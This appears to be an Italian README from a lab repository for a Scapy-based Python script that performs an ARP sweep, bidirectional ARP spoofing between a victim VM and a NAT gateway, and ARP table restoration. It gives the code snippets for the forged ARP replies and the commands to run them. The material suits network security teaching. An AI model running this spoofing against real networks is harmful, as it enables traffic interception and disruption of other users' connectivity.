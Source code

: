 # 🧪 Script `arptotale.py`
Questo script Python esegue un laboratorio ARP completo in ambiente virtuale NAT. Include sweep iniziale, spoofing ARP bidirezionale e ripristino automatico delle tabelle ARP alla pressione di `Ctrl+C`.

🧠 Dati finali per lo spoofing
Nodo	     IP	         MAC	            Interfaccia
Attaccante	10.0.2.16	00:11:22:33:44:55	     eth0
Vittima	    10.0.2.15	08:00:27:55:44:07	    enp0s3
Gateway	    10.0.2.2	52:54:00:12:35:02	    enp0s3

🔧 Modifica arp_spoof_lab.py
Nel tuo script, imposta:

victim_ip = "10.0.2.15"
victim_mac = "08:00:27:55:44:07"
router_ip = "10.0.2.2"
router_mac = "52:54:00:12:35:02"
attacker_mac = "00:11:22:33:44:55"

#Assicurati che l’interfaccia usata sia eth0.

🔥 Esecuzione dell’attacco
Sulla VM attaccante:


cd ~/arp_lab/scripts/
sudo python3 arp_spoof_lab.py


🧪 Verifica sulla VM vittima

ping 8.8.8.8

#Se il ping fallisce durante lo spoofing, l’attacco è riuscito.

🛡️ Ripristino
Sulla VM attaccante:

sudo sysctl -w net.ipv4.ip_forward=0

Sulla VM vittima:

sudo ip neigh flush all


## ⚙️ Funzionalità principali

### 1. ARP Sweep

#Effettua una scansione della rete (`10.0.2.0/24`) per identificare host attivi e i relativi MAC address.

arp = ARP(pdst=network_range)
ether = Ether(dst="ff:ff:ff:ff:ff:ff")
packet = ether / arp
result = srp(packet, timeout=2, iface=interface, verbose=False)[0]
------------------

### 2. ARP Spoofing
#Invia pacchetti ARP falsificati per impersonare il router verso la vittima e viceversa.

#La vittima crede che l'attaccante sia il router

#Il router NAT crede che l'attaccante sia la vittima
--------------------
pkt1 = ARP(op=2, pdst=victim_ip, hwdst=victim_mac, psrc=router_ip, hwsrc=attacker_mac)
pkt2 = ARP(op=2, pdst=router_ip, hwdst=router_mac, psrc=victim_ip, hwsrc=attacker_mac)
send(pkt1)
send(pkt2)
---------

### 3. Ripristino ARP
#Alla pressione di Ctrl+C, lo script invia pacchetti corretti per ripristinare le tabelle ARP originali.

pkt1 = ARP(op=2, pdst=router_ip, hwdst=router_mac, psrc=victim_ip, hwsrc=victim_mac)
pkt2 = ARP(op=2, pdst=victim_ip, hwdst=victim_mac, psrc=router_ip, hwsrc=router_mac)
send(pkt1, count=3)
send(pkt2, count=3)

---
📁 Log automatico
Tutte le operazioni vengono registrate nel file:


🛡️ Sicurezza
Funziona solo su rete NAT virtuale (VirtualBox)

Nessun impatto su router reale o rete fisica

Ripristino automatico garantito


▶️ Esecuzione

Da terminale sulla VM attaccante:

cd ~/arp_lab/scripts/
sudo python3 arptotale.py

✍️ Autore
Script scritto per ambienti CLI e laboratori di simulazione ARP. Ottimizzato per Debian minimal, VirtualBox NAT Network e logging automatico.


---
#   a r p t o t a l e 
 
 


